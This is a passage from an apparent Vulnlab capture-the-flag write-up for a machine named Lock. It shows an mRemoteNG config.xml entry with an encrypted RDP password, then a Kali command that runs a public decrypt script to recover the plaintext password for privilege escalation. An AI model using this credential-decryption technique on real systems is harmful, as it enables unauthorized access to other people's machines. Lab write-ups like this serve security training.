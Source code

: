 ```c
    <Node Name="RDP/Gale" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="a179606a-a854-48a6-9baa-491d8eb3bddc" Username="Gale.Dekarios" Domain="" Password="TYkZkvR2YmVlm2T2jBYTEhPU2VafgW1d9NSdDX+hUYwBePQ/2qKx+57IeOROXhJxA7CczQzr1nRm89JulQDWPw==" Hostname="Lock" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" DisplayThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" CacheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality="Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacAddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0" VNCProxyUsername="" VNCProxyPassword="" VNCColors="ColNormal" VNCSmartSizeMode="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostname="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="false" InheritColors="false" InheritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="false" InheritEnableFontSmoothing="false" InheritEnableDesktopComposition="false" InheritDomain="false" InheritIcon="false" InheritPanel="false" InheritPassword="false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" InheritRedirectDiskDrives="false" InheritRedirectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" InheritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConsoleSession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionStrength="false" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout="false" InheritLoadBalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" InheritUserField="false" InheritExtApp="false" InheritVNCCompression="false" InheritVNCEncoding="false" InheritVNCAuthMode="false" InheritVNCProxyType="false" InheritVNCProxyIP="false" InheritVNCProxyPort="false" InheritVNCProxyUsername="false" InheritVNCProxyPassword="false" InheritVNCColors="false" InheritVNCSmartSizeMode="false" InheritVNCViewOnly="false" InheritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false" InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />
</mrng:Connections>
```

## Privilege Escalation

### Decrypt mRemoteNG Hash

I downloaded the `config.xml` to my local machine and used `mRemoteNG_password_decrypt` to get the `password` of `Gale Dekarios`.

- [https://github.com/gquere/mRemoteNG_password_decrypt](https://github.com/gquere/mRemoteNG_password_decrypt)

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Lock/files]
└─$ python3 mRemoteNG_password_decrypt/mremoteng_decrypt.py config.xml 
Name: RDP/Gale
Hostname: Lock
Username: Gale.Dekarios
Password: ty8wnW9qCKDosXo6
```
